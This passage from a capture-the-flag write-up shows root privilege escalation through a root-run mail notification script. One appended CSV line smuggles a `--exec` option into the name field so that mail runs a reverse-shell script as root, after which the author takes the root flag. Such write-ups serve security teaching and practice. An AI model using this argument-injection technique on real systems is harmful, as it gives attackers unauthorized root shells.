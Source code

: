 when we update the leave_request.csv file it invokes a `new process called mail` which runs with `root privileges` and based on what we get from the pspy we can see the mail command format that runs in the notify.sh script
so the schema of the mail command could be this `mail -s "Leave Request: " $name christine`

![image](https://www.linkpicture.com/q/pasted_image113.png)

to exploit the mail command go to `gtfobins` and search for mail to see how mail can be abused to execute scripts
`echo 'bean --exec="\!/tmp/reverseshell.sh"' >> leave_requests.csv`
before you execute this make sure you have `set up a listener to catch the reverse shell`

![image](https://www.linkpicture.com/q/pasted_image109.png)

we have successfully executed the reverse shell script using the mail command and we have spawned a root shell

![image](https://www.linkpicture.com/q/pasted_image110.png)

## Root Flag :
and here is the `root flag`

![image](https://www.linkpicture.com/q/pasted_image112.png)

